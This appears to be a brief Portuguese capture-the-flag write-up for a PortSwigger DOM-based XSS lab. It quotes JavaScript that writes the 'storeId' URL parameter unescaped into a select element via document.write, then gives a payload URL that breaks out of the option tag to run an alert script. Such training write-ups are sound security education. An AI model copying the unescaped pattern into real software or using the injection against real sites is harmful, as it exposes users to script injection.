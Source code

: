 #ctf 

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element

O script abaixo lança na DOM um `<select>` já com um valor selecionado por padrão.

```javascript

var stores = ["London", "Paris", "Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if (store) {
	document.write('<option selected>' + store + '</option>');
}

for (var i = 0; i < stores.length; i++) {
	if (stores[i] === store) {
		continue;
	}

	document.write('<option>' + stores[i] + '</option>');
}

document.write('</select>');
```

Na URL da página, é possível adicionar um parâmetro `storeId` e seu valor é setado no HTML com `document.write`. Então é só usar esse payload:

```
https://0a64000d0373c91a81ca701f0002006f.web-security-academy.net/product?productId=3&storeId=%3C/option%3E%3Cscript%3Ealert(1)%3C/script%3E
```

GG